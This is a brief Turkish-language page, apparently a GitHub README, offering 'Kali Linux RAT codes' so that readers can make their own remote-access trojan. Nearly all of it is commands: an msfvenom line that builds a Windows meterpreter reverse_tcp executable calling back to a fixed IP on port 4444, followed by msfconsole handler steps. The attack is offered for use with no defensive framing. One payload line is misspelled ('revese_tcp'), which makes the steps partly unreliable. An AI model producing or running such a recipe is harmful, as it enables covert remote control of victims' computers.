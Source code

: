 ### Kali Linux RAT Kodları
Buradaki kodu Kali Linux terminaline yazdığınızda kendi RAT'ınızı yapabilirsiniz.

Bir terminal açın

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f exe > dosyaadı.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/revese_tcp
set LHOST makineipsi
set LPORT 4444
run
